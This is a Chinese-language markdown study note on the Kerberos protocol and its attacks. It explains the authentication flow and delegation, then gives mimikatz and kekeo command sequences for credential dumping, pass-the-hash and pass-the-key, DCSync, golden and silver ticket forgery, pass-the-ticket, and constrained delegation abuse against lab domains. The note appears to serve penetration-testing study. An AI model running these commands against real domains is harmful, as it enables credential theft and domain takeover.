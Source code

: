 ```yaml
---
title: Kerberos协议
tags: windows
---
```


## kerberos 认证过程

### 角色

+ Client：访问服务的主机
+ Server：提供服务的主机
+ KDC（Key Distribution Center）：密钥分发中心，包含 AS（Authentication Service） 和 TGS（Ticket Granting Service）

### 过程

+ AS_REQ：Client 向 KDC 发送 ASREQ，请求凭据是 Client hash 加密的时间戳
+ AS_REP：KDC 使用 Client hash 进行解密，如果结果正确就返回 krbtgt hash 加密的 TGT 票据，TGT 票据里包含 PAC，PAC 包含 Client 的sid、Client 所在的组
+ TGS_REQ：Client 向 KDC 发送 TGT 票据，请求特定服务
+ TGS_RSP：KDC 使用 krbtgt hash 进行解密，如果结果正确，就返回用服务 hash 加密的 TGS 票据
+ AP_REQ：Client 使用 TGS 票据请求服务
+ AP_REP：服务用自己的 hash 解密 TGS 票据，如果解密正确，就发送 PAC 给 KDC，询问 Client 的访问权限，域控解密 PAC，获取 Client 的 sid，以及所在的组再根据服务的 ACL，判断 Client 的权限

## 委派

主机 A 使用主机 B 的某服务，此时需要通过主机 B 的某服务请求主机 C 的 某项专属 A 的服务，B 就需要代表 A 去访问 C 的该服务。

### 非约束性委派

被配置了约束性委派的主机B，会接受任何用户的委派去请求其他服务，原理是 A 将 TGT 发送到 B 中并缓存到 LSASS，B 就可以模拟用户去访问服务。

### 约束委派

约束委派将限制指定服务器可以代表用户执行的服务，原理是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务（需要域管理员的权限）。

### 基于资源的约束委派

约束委派需要域管理员权限，为了使用户资源更加独立，微软引进了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。



## 认证过程引发的安全问题

### PTH/PTK

PTH，即 pass the hash。在访问主机 RDP 服务时，进行认证的过程中，唯一用到的与 Client 密码相关的是 AS_REQ 中使用的 hash，因此没有明文密码也是可以认证的。如果 hash 的 ntlm hash，加密方式为 rc4，这种就属于 pth，如果 hash 是 aes key，就算是 pass the key。

#### mimikatz操作

##### PTH

```
在目标机器中抓取密码 hash：
privilege::debug
sekurlsa::logonpasswords

在本机 pass the hash：
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7
```
##### PTK
```
在目标机器中抓取 key：
privilege::debug
mimikatz "privilege::debug" "sekurlsa::ekeys"

在本机 pass the key：
mimikatz "privilege::debug" "sekurlsa::pth /user:mary /domain:hack.test /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288" 
```



### 黄金票据

AS_REP 中的 TGT 票据是使用 krbtgt 的 hash 进行加密的，如果拥有 krbtgt 的hash，就可以给自己签发任意用户的 TGT 票据，这个票据被称为黄金票据。

#### mimikatz

```
在域控内导出 kribtgt 的 hash：
privilege::Debug
lsadump::dcsync /domain:hack.test /user:krbtgt

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

生成黄金票据：
kerberos::golden /user:Administrator /domain:hack.test /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi

在本机测试：
kerberos::purge // 清空已有票据
kerberos::ptt 1.kirbi	//导入票据
lsadump::dcsync /domain:test.com /user:krbtgt	// 导出 krbtgt 账号密码，作用是测试票据是否导入成功
```



### PTT

ptt，即 pass the ticket，Kerberos认证过程除了第一步AS_REQ是使用时间戳加密用户hash验证之外，其他验证都是通过票据，如果能拿到票据，就可以使用票据进行下个阶段的验证。

#### mimikatz

```
在域控中导出所有票据：
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"	

在本机导入票据：
kerberos::purge	//清除票据
mimikatz.exe "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"	//将票据注入到内存
```



### 白银票据

TGS_REP 中返回的 TGS 票据是使用服务的 hash 加密的，如果已经拥有服务的 hash，就可以给任意用户签发票据，访问特定服务，这就是白银票据。伪造的白银票据并没有与 KDC 通讯，所以票据里并没有带有有效 KDC 签名的 PAC，故如果目标主机配置为验证 KDC PAC签名，则白银票据失效。

#### mimikatz

```
域管账号登录域控，抓取密码hash：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

导入白银票据：
kerberos::golden /domain:hack.test /sid:S-1-5-21-4188752632-3746001697-3968431413 /target:dc.hack.test /rc4:6f949c52336e143ff8a2f5957416a73a /service:cifs /user:ceshi /ptt

导入命令详解：
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：域sid号
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```



### 非约束委派攻击

拿下配置非约束委派的服务器后，诱导域管访问，此时域管会将自己的 TGT 票据发送给该服务器并缓存到 Lsass 中，导出票据即可使用 PTT 接管域账号



### 约束委派攻击

拿下约束委派用户的账号密码后，可以向域控发送 TGT 请求，得到特定服务可转发的 TGS 票据

#### kekeo+mimikatz

```
已获取约束委派用户账号密码的前提下：

使用 kekeo 向域控发起 TGT 请求:
tgt::ask /user:test /domain:hack.test /password:Asdf1234 /ticket:test.kirbi

利用得到的 TGT 票据去 TGS 申请 ST 票据：
tgs::s4u /tgt:TGT_test@HACK.TEST_krbtgt~hack.test@hack.test.kirbi /user:Administrator@hack.test /service:cifs/DC.hack.test

mimikatz导入票据：
kerberos::ptt TGS_Administrator@hack.test@HACK.TEST_cifs~DC.hack.test@HACK.TEST.kirbi
```







